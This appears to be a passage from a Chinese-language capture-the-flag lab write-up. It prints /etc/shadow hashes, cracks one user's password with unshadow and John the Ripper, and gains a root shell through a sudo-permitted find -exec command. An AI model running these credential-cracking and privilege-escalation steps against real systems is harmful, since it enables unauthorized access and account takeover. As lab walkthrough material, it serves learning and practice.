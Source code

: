 ```
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```
破解密碼
```
┌──(root💀kali)-[/home/kali/Desktop]
└─# unshadow passwd.txt shadow.txt >pass.txt

┌──(root💀kali)-[/home/kali/Desktop]
└─# john pass.txt --w=/usr/share/wordlists/rockyou.txt   
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)     

```
切換成missy 之後用sudo -l 可以見到 /usr/bin/find
```
[leonard@ip-10-10-178-144 ~]$ su missy
Password: 
[missy@ip-10-10-178-144 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-178-144:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-178-144:
    (ALL) NOPASSWD: /usr/bin/find

[missy@ip-10-10-178-144 ~]$ sudo /usr/bin/find . -exec /bin/sh -p \; -quit
sh-4.2# 

```
